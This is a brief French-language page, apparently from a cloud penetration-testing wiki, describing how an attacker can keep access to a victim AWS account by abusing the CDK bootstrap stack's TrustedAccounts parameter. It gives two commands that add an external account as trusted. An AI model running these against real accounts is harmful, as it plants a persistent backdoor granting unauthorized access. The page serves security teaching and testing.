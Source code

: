 # AWS - Cloudformation Persistence

{{#include ../../../../banners/hacktricks-training.md}}

## CloudFormation

Pour plus d'informations, consultez :

{{#ref}}
../../aws-services/aws-cloudformation-and-codestar-enum.md
{{#endref}}

### CDK Bootstrap Stack

L'AWS CDK déploie une stack CFN appelée `CDKToolkit`. Cette stack prend en charge un paramètre `TrustedAccounts` qui permet à des comptes externes de déployer des projets CDK dans le compte victime. Un attaquant peut abuser de cela pour s'octroyer un accès indéfini au compte victime, soit en utilisant l'AWS cli pour redéployer la stack avec des paramètres, soit en utilisant l'AWS CDK cli.
```bash
# CDK
cdk bootstrap --trust 1234567890

# AWS CLI
aws cloudformation update-stack --use-previous-template --parameters ParameterKey=TrustedAccounts,ParameterValue=1234567890
```
{{#include ../../../../banners/hacktricks-training.md}}
